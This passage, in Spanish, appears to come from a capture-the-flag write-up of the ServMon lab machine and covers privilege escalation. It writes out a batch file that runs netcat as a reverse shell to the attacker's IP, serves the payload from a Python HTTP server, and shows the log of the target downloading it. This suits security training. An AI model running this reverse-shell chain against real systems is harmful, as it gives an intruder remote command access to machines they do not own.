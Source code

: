 Ahora siguiendo la PoC, se debe crear un script para que corra un .bat.

![](servmon8.jpg)

![](servmon9.jpg)

Ahora se debe pasar el script de .bat y el nc64 al servidor, para que esto corra y realice una reverse shell como root.
Primero abriendo un servidor python en mi maquina atacante con los archivos necesarios.
~~~bash
cat evil.bat  
@echo off
c:\temp\nc64.exe 10.10.14.4 443 -e cmd.exe

python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.184 - - [28/Oct/2025 16:10:26] "GET /nc64.exe HTTP/1.1" 200 -
10.10.10.184 - - [28/Oct/2025 16:10:49] "GET /evil.bat HTTP/1.1" 200 -

~~~
Y pasandolo a windows
~~~bash
nadine@SERVMON C:\>mkdir temp

~~~